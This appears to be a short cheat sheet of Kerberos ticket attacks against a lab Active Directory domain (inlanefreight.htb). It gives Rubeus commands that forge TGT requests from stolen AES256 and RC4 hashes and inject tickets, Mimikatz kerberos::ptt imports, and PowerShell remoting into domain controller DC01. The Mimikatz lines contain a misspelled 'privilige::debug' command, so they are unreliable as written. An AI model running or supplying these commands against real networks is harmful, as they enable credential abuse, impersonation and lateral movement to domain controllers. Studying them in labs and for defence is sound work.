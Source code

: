 ```cmd
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

### Pass the Ticket 
#### #Rubeus
```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

```cmd
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
Using Base64
```powershell
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

```cmd
Rubeus.exe ptt /ticket:<ticket>
```

#### MimiKatz 
```cmd 
privilige::debug 

kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
#### PowerShell Remoting 
Run scripts or commands on a remote computer 
##### Mimikatz
```cmd 
mimikatz.exe

privilige::debug 

kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

exit

powershell 
```
```powershell
Enter-PSSession -ComputerName DC01
```
##### Rubeus
```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

powershell
```
```powershell
Enter-PSSession -ComputerName DC01
```
